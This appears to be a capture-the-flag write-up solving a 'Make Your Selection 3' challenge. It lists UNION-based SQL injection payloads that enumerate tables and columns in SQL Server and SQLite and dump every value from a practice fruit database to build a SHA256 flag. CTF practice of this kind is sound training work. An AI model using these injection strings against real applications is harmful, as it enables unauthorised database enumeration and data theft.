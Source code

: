# Make Your Selection 3

### Challenge

***This flag is the SHA256 hash of all column values from all tables from Make Your Selection 1. Order the values alphabetically by table name, then column name then value. goto clue for more info.***

Start with solution from Make Your Selection 1:

    xyz' UNION ALL SELECT name FROM sys.tables; --
    xyz' UNION ALL SELECT name FROM sqlite_schema WHERE type ='table' AND name NOT LIKE 'sqlite_%'; --

now find column names for each table

    xyz' UNION ALL SELECT name FROM sys.columns where object_id = (select object_id from sys.tables where name = 'Fruit'); --
    xyz' UNION ALL SELECT name FROM sys.columns where object_id = (select object_id from sys.tables where name = 'FruitColor'); --    
    ...etc.

    xyz' UNION ALL SELECT name FROM PRAGMA_TABLE_INFO('Fruit'); --

Now that you know all the column names, start selecting each column from each table:

    xyz' UNION ALL SELECT Id FROM Fruit order by 1; --
    xyz' UNION ALL SELECT FruitName FROM Fruit order by 1; --
    xyz' UNION ALL SELECT FruitGrowsOnId FROM Fruit order by 1; --
    xyz' UNION ALL SELECT FruitColorId FROM Fruit order by 1; --
    ...etc.

When you have all values from all columns of all tables just put them together in order of table name then column name then value. Notice this table shows the tables in alphabetical order, then their columns in alphabetical order, then the values in alphabetical order.


| Fruit.FruitColorID | Fruit.FruitGrowsOnID | Fruit.FruitName | Fruit.Id | Fruit.SeasonID| FruitColor.Color | FruitColor.Id | FruitGrowsOn.Id | FruitGrowsOn.PlantType | FruitSeason.Id | FruitSeason.Season|
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
|123456|111234|AppleBananaBlueberryGrapeOrangeStrawberry|133334|123456|BlueGreenOrangePurpleRedYellow|123456|1234|BushrunnerTreeVine|1234|FallSpringSummerWinter|

All together it evaluates to 123456111234AppleBananaBlueberryGrapeOrangeStrawberry133334123456BlueGreenOrangePurpleRedYellow1234561234BushrunnerTreeVine1234FallSpringSummerWinter

Finally, compute the SHA256 hash of that value. Use an online tool or your favorite programming language.

```
select 'Fruit.Id', CAST(Id as nvarchar(10)) from dbo.Fruit
union all select 'Fruit.FruitName',  FruitName from dbo.Fruit
union all select 'Fruit.FruitGrowsOnID', CAST(FruitGrowsOnID as nvarchar(200)) from dbo.Fruit
union all select 'Fruit.FruitcolorID', CAST(FruitColorID as nvarchar(200)) from dbo.Fruit
union all select 'Fruit.FruitSeasonID', CAST(FruitSeasonID as nvarchar(200)) from dbo.Fruit
union all select 'FruitColor.Id', CAST(Id as nvarchar(10)) from dbo.FruitColor
union all select 'FruitColor.FruitColor', Color from dbo.FruitColor
union all select 'FruitGrowsOn.Id', CAST(Id as nvarchar(10)) from dbo.FruitGrowsOn
union all select 'FruitGrowsOn.PlantType', PlantType from dbo.FruitGrowsOn
union all select 'FruitSeason.Id', CAST(Id as nvarchar(10)) from dbo.FruitSeason
union all select 'FruitSeason.Season', Season from dbo.FruitSeason
ORDER BY 1,2;
```
